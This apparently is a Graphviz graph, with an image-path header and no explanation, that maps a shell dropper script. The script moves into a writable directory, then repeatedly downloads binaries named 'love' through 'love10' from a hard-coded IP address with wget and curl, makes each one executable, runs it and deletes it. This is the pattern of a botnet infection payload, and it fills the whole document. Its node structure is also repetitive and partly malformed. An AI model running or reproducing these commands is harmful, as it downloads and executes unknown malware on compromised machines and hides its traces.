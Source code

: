 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://212.237.10.141/love "];
10 -> 12 [label=";,"];
12 [label="curl -O http://212.237.10.141/love "];
12 -> 14 [label=";,"];
14 [label="chmod +x love "];
14 -> 16 [label=";,"];
16 [label="./love "];
16 -> 18 [label=";,"];
18 [label="rm -rf love "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://212.237.10.141/love1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://212.237.10.141/love1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x love1 "];
34 -> 36 [label=";,"];
36 [label="./love1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf love1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://212.237.10.141/love2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://212.237.10.141/love2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x love2 "];
54 -> 56 [label=";,"];
56 [label="./love2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf love2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://212.237.10.141/love3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://212.237.10.141/love3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x love3 "];
74 -> 76 [label=";,"];
76 [label="./love3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf love3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://212.237.10.141/love4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://212.237.10.141/love4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x love4 "];
94 -> 96 [label=";,"];
96 [label="./love4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf love4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://212.237.10.141/love5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://212.237.10.141/love5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x love5 "];
114 -> 116 [label=";,"];
116 [label="./love5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf love5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://212.237.10.141/love6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://212.237.10.141/love6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x love6 "];
134 -> 136 [label=";,"];
136 [label="./love6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf love6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://212.237.10.141/love7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://212.237.10.141/love7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x love7 "];
154 -> 156 [label=";,"];
156 [label="./love7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf love7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://212.237.10.141/love8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://212.237.10.141/love8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x love8 "];
174 -> 176 [label=";,"];
176 [label="./love8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf love8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://212.237.10.141/love9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://212.237.10.141/love9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x love9 "];
194 -> 196 [label=";,"];
196 [label="./love9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf love9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://212.237.10.141/love10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://212.237.10.141/love10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x love10 "];
214 -> 216 [label=";,"];
216 [label="./love10 "];
216 -> 217 [label=";,"];
}
